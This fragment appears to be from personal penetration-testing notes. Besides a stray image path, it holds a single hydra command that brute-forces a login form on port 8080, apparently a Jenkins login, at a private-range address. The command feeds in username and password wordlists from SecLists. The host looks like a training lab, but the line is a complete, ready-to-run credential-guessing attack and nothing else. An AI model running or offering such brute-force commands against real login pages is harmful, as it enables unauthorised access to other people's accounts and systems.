 hydra -L /home/schlagenhaufer/git/h4ck-notes/useful/SecLists/Usernames/top-usernames-shortlist.txt -P /home/schlagenhaufer/git/h4ck-notes/useful/SecLists/Passwords/xato-net-10-million-passwords-1000.txt -s 8080 10.129.225.32 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"